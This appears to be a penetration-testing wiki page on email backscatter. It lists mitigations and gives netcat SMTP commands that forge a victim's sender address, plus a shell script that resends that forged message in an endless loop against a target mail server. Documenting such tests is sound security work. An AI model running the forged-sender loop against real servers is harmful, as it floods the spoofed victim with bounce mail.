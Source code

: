 ```yaml
---
title : "Backscatter"
# pre : ' '
description : "Backscatter is the incorrectly automated bounce messages sent by mail servers, typically as a side effect of incoming spam.can be used."
date : 2020-07-03T09:33:43+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Backscatter

Backscatter is the incorrectly automated bounce messages sent by mail servers, typically as a side effect of incoming spam.can be used.

### Solution

```plain
- Implement anti-forgery checks - SPF, DKIM and DMARC
- Implement recepient checks for acceptance of e-mail
- If above not possible disable NDR reports
```

## Examples

### Single test

```plain
nc 10.10.10.10 25
EHLO example.com
MAIL FROM:victim@example.com
RCPT TO:notexistingmailbox@target.com
DATA
backscatter testdata
.
```

### Automated test

Create a file with this content (backscatter.txt)

```plain
EHLO example.com
MAIL FROM:victim@example.com
RCPT TO:notexistingmailbox@target.com
DATA
backscatter testdata
.
```

```plain
#!/bin/sh
while true;
do
    cat backscatter.txt | while read L; do sleep "1"; echo "$L"; done | "nc" -w 3 -C -v "<target-ip>" "25";
done
```

## URL List

- [Wikipedia.org - Backscatter](https://en.wikipedia.org/wiki/Backscatter_(email))
